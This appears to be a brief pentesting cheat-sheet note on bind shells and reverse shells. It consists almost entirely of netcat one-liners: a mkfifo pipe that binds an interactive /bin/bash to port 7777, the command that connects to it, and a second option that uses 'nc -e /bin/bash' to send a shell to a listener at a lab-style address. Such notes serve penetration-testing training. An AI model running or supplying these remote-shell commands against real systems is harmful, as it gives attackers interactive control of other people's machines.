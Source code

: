 #shell/bind
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

```shell
nc -nv 10.129.41.200 7777

Target@server:~$  
```


## option 2

```bash
nc -nvlp 4444
```

```bash
nc 10.10.14.97 4444 -e /bin/bash
```
